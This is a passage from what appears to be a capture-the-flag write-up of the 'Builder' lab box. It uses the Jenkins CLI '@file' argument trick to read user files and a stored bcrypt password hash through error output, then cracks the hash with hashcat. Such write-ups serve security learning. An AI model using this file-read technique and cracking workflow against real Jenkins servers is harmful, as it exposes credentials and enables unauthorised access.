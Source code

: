 ```shell
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://builder.htb:8080' reload-job '@/var/jenkins_home/users/users.xml'

[redacted]
<?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
      <string>jennifer_12108429903186576833</string>: No such item ‘      <string>jennifer_12108429903186576833</string>’ exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such item ‘  <idToDirectoryNameMap class="concurrent-hash-map">’ exists.
    <entry>: No such item ‘    <entry>’ exists.
      <string>jennifer</string>: No such item ‘      <string>jennifer</string>’ exists.
  <version>1</version>: No such item ‘  <version>1</version>’ exists.
</hudson.model.UserIdMapper>: No such item ‘</hudson.model.UserIdMapper>’ exists.
  </idToDirectoryNameMap>: No such item ‘  </idToDirectoryNameMap>’ exists.
<hudson.model.UserIdMapper>: No such item ‘<hudson.model.UserIdMapper>’ exists.
    </entry>: No such item ‘    </entry>’ exists.
```

So we can see a user `jennifer_12108429903186576833` that seems to be the initial `jennifer`. We can now inspect its personal config:

```shell
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://builder.htb:8080' reload-job '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'

[redacted]
<?xml version='1.1' encoding='UTF-8'?>: No such item ‘<?xml version='1.1' encoding='UTF-8'?>’ exists.
  <fullName>jennifer</fullName>: No such item ‘  <fullName>jennifer</fullName>’ exists.
      <seed>6841d11dc1de101d</seed>: No such item ‘      <seed>6841d11dc1de101d</seed>’ exists.
  <id>jennifer</id>: No such item ‘  <id>jennifer</id>’ exists.
  <version>10</version>: No such item ‘  <version>10</version>’ exists.
      <tokenStore>: No such item ‘      <tokenStore>’ exists.
          <filterExecutors>false</filterExecutors>: No such item ‘          <filterExecutors>false</filterExecutors>’ exists.
    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>: No such item ‘    <io.jenkins.plugins.thememanager.ThemeUserProperty plugin="theme-manager@215.vc1ff18d67920"/>’ exists.
      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such item ‘      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>’ exists.
```

So here we've got some hashed creds: `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`.

It's time to use hashcat to decrypt this **bcrypt** formatted password:

```shell
hashcat -m 3200 -a 0 -o cracked.txt hash.txt /usr/share/wordlists/rockyou.txt

$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a:princess
```
